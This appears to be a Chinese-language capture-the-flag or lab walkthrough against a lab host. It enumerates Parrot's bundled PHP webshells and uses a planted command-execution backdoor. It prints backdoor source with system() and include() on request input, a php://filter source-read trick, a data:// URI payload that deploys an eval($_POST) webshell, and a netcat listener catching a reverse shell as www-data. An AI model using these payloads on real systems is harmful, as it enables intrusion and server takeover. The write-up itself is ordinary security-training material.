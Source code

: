 根据提示信息，查看 Parrot 自带的 webshell 文件

```plaintext title="/usr/share/webshells/php"
drwxr-xr-x 1 root root   64  1 月 22 日 03:13 findsocket
-rw-r--r-- 1 root root 2.8K 2021 年 11 月 21 日 php-backdoor.php
-rwxr-xr-x 1 root root 5.4K 2021 年 11 月 21 日 php-reverse-shell.php
-rw-r--r-- 1 root root  14K 2021 年 11 月 21 日 qsd-php-backdoor.php
-rw-r--r-- 1 root root  328 2021 年 11 月 21 日 simple-backdoor.php
```

根据文件列表进行探测，得到以下信息

```plaintext title="http://192.168.56.109/supersecure/simple-backdoor.php?cmd=ls"
mysuperbackdoor.php
simple-backdoor.php
```

经过探测，`simple-backdoor.php` 为命令执行后门，但是可能存在过滤，只允许纯字母 + 数字的指令执行

`mysuperbackdoor.php` 为文件读取的后门，使用 `php://filter/read=convert.base64-encode/resource=` 可以绕过解析读取 php 文件的源码

```php title="simple-backdoor.php"
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        $result = preg_replace("/[^a-zA-Z0-9]+/", "", $cmd);
        system($result);
        echo "</pre>";
        die;
}

?>
```

```php title=""
<?php
include $_REQUEST['file'];
?>
```

借助 php 的 LFI，可以实现 webshell 部署

```plaintext
http://192.168.56.109/supersecure/mysuperbackdoor.php?file=data:text/plain,<?php @eval($_POST['a']) ?>
```

成功实现 webshell 部署，进而反弹 shell

```bash
┌─[✗]─[randark@parrot]─[~/tmp]
└──╼ $nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.109] 58444
whoami
www-data
```

